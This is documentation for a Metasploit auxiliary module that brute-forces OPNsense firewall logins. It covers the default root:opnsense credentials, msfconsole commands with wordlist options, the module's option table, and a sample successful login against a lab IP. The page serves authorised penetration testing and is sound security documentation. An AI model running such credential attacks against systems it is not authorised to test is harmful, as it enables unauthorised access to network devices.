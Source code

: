 ## Vulnerable Application

This module attempts to bruteforce credentials for OPNSense.

This module was specifically tested on version 25.1 and 21.1, with older versions being unavailable from OPNSense mirrors.

Note:

By default, OPNSense comes with a built-in account named `root` with the password being `opnsense`.

When performing too many login attempts, OPNSense will drop all packets coming from your IP, until the router is either:
- Restarted
- An anti-lockout rule is added

## Verification Steps

1. Set up an OPNSense VM or target a real installation
1. Start `bundle exec ./msfconsole -q`
1. `use auxiliary/scanner/http/opnsense_login`
1. `set ssl true`
1. `set pass_file ...`
1. `set user_file ...`
1. `run`
1. or, using some example inline options:
```
run pass_file=data/wordlists/default_pass_for_services_unhash.txt \
 user_file=data/wordlists/default_pass_for_services_unhash.txt \ 
 STOP_ON_SUCCESS=true SSL=true rport=443
```
1. Verify you get a login:
```
[+] 192.168.207.158:443 - Login Successful: root:opnsense
```

## Options

### BLANK_PASSWORD

Set to `true` if an additional login attempt should be made with an empty password for every user.

### BRUTEFORCE_SPEED

How fast to bruteforce, from 0 to 5

### PASSWORD

A specific password to authenticate with

### PASS_FILE

File containing passwords, one per line

### STOP_ON_SUCCESS

Stop guessing when a credential works for a host

### THREADS

The number of concurrent threads (max one per host)

### USERPASS_FILE

File containing users and passwords separated by space, one pair per line

### USER_FILE

File containing usernames, one per line

### VERBOSE

Whether to print output for all attempts

## Scenarios
```
msf6 auxiliary(scanner/http/opnsense_login) > options

Module options (auxiliary/scanner/http/opnsense_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   ANONYMOUS_LOGIN   false            yes       Attempt to login with a blank username and password
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD          opnsense         no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            192.168.207.161  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT             443              yes       The target port (TCP)
   SSL               true             yes       Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   TARGETURI         /                yes       The base path to the OPNSense application
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME          root             no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts
   VHOST                              no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/http/opnsense_login) > run
[+] 192.168.207.161:443 - Login Successful: root:opnsense
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
